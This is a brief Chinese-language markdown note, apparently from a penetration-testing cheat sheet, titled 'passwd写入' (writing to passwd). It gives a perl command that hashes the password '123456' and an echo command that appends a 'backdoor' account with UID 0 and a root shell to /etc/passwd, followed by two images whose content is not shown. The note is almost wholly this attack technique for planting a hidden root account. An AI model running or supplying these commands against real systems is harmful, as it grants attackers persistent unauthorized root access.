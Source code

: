 ```yaml
---
title: "passwd写入"
id: zhfly3500
---
```


## passwd写入

```
perl -e 'print crypt("123456", "AA"). "\n"'
echo "backdoor:AASwmzPNx.3sg:0:0:me:/root:/bin/bash">>/etc/passwd 
```

![image](../img/3616bfc17b420d330c208c26bf83f396.png)

![image](../img/819e22b43cc77e7c310a44e5fdde946a.png)